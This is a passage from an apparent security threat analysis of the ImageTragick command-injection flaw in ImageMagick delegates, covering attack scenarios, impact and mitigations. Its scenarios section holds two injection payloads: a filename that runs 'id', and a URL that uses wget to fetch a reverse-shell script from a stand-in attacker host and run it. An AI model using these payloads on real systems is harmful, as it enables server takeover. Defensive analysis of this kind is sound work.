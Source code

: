 **Potential Scenarios:**

* An attacker uploads an image with a filename like `ephemeral:; id > /tmp/pwned;`. When processed, this could execute `id > /tmp/pwned` on the server.
* An attacker provides a URL like `url:https://evil.com/malicious.jpg| wget https://attacker.com/reverse_shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh`. This could download and execute a reverse shell.

#### 4.3 Impact Assessment

The impact of a successful "ImageTragick" attack is **critical**. As stated in the threat description, it can lead to **full compromise of the server**. This means an attacker could:

* **Execute arbitrary commands:** Gain complete control over the server's resources.
* **Access sensitive data:** Read files, databases, and other confidential information.
* **Modify data:** Alter application data, user accounts, or system configurations.
* **Disrupt service:**  Launch denial-of-service attacks or take the application offline.
* **Establish persistence:** Install backdoors for future access.

The severity is high because the attacker gains the privileges of the ImageMagick process, which could be the web server user or another privileged account.

#### 4.4 Evaluation of Mitigation Strategies

Let's analyze the effectiveness of the proposed mitigation strategies in our context:

* **Disable or restrict the use of delegates:** This is the **most effective and recommended mitigation**. By removing or commenting out potentially dangerous delegates in `delegates.xml`, we significantly reduce the attack surface. We need to carefully analyze our application's image processing needs and identify which delegates are absolutely necessary. **Recommendation:** Implement this immediately. Start by disabling all non-essential delegates and gradually re-enable only those that are strictly required after thorough testing.

* **Carefully review and sanitize the `delegates.xml` configuration file:** This is a crucial step even if we restrict delegates. We need to understand the purpose of each delegate and ensure that the commands defined are secure. Look for delegates that use user-provided input directly without proper quoting or escaping. **Recommendation:**  Conduct a thorough audit of `delegates.xml`. Comment out or remove any delegate that seems suspicious or unnecessary.

* **Avoid using user-supplied data directly in delegate commands:** This is a general security best practice. If we absolutely must use user-provided data in delegate commands, we need to implement **strict input validation and escaping**. However, given the complexity and potential for bypasses, **it's generally safer to avoid this altogether**. **Recommendation:**  Refactor our code to avoid directly incorporating user-supplied data into delegate commands. If unavoidable, implement robust input validation and use secure escaping mechanisms specific to the shell environment.

* **Consider using a policy file to restrict the capabilities of ImageMagick:** Policy files offer a fine-grained control over ImageMagick's capabilities, including restricting the execution of external commands. This is a strong defense-in-depth measure. **Recommendation:** Implement a restrictive policy file. This can prevent the execution of external commands even if a vulnerability is present in the delegate processing.

#### 4.5 Actionable Recommendations for the Development Team

Based on this analysis, we recommend the following actions:
